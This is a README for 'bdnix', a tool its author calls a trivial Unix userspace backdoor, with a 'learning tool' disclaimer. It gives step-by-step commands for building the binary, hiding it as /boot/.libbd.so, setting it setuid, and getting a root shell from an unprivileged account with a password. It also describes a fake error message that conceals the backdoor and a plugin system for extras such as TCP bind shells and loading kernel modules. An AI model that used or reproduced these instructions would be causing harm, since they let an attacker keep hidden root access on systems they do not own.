  <pre>
      ___           ___           ___                       ___     
     /\  \         /\  \         /\__\          ___        |\__\    
    /::\  \       /::\  \       /::|  |        /\  \       |:|  |   
   /:/\:\  \     /:/\:\  \     /:|:|  |        \:\  \      |:|  |   
  /::\~\:\__\   /:/  \:\__\   /:/|:|  |__      /::\__\     |:|__|__ 
 /:/\:\ \:|__| /:/__/ \:|__| /:/ |:| /\__\  __/:/\/__/ ____/::::\__\
 \:\~\:\/:/  / \:\  \ /:/  / \/__|:|/:/  / /\/:/  /    \::::/~~/~   
  \:\ \::/  /   \:\  /:/  /      |:/:/  /  \::/__/      ~~|:|~~|    
   \:\/:/  /     \:\/:/  /       |::/  /    \:\__\        |:|  |    
    \::/__/       \::/__/        /:/  /      \/__/        |:|  |    
     ~~            ~~            \/__/                     \|__|    
 </pre>

<p>Trivial userspace backdoor for Unix</p>
</p>Emanuele Paiano - nixw0rm@gmail.com</p>

<h6>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!  </h6>                         

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and go into bdnix folder
  <pre>
   # cd /path/bdnix
   </pre>
2) From root run 'make' to build binary file
  <pre>
   # make
   </pre>
3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,
<pre>
   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
   </pre>       
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua to enable backdoor
<pre>
   $ /boot/.libbd.so joshua /bin/sh

   if you see '#' then.. you are root! :)
   </pre>

6) if you run without joshua password, you can read a (fake) error:
<pre>
/bin/sh: cannot execute binary file
</pre>

---------------------
 CUSTOMIZE PASSWORD
---------------------

Opening settings.h you can change default password "joshua" (can you remember WOPR?):
<pre><code>
#define ARG1 "joshua"
</code></pre>
we can change it to "chips"
<pre><code>
#define ARG1 "chips"
</code></pre>
Now recompiling (read above) and running with new password:
<pre><code>
$ /boot/.libbd.so chips /bin/sh
#
</code></pre>
If we have rootshell, it works! :)


-----------------
 ENABLE PLUGINS
-----------------
Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:
<pre><code>
/* PLUGINS */

/* enable rootshell */
#define SHELL 1
</code></pre>       
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:
<pre><code>
/* enable rootshell */
#define SHELL 0

/* my plugin */
#define MYPLUGIN 1
</code></pre>    
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-----------------------
 WRITE A CUSTOM PLUGIN
-----------------------
1) If you need write plugin, you must create .h file into plugin using next template:
<pre><code>
int <PLUGIN_NAME>_init()
{
  //code plugin
}
</code></pre>
   replace PLUGIN_NAME with your plugin's name and write your code between {} in function.  

2) Open bdcode.c and find this code into main():
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
</code></pre>
   and edit previos code in this:
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
 #if PLUGIN_NAME == 1
   PLUGIN_NAME_init();
 #endif
</code></pre>
   remove PLUGIN_NAME with your plugin's name.

3) Before main(), add these lines:
<pre><code>
#if PLUGIN_NAME == 1
#include "plugin/PLUGIN_NAME.h"
#endif
</code></pre>

and remove PLUGIN_NAME with your plugin's name.

   TIPS: you can edit RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms.
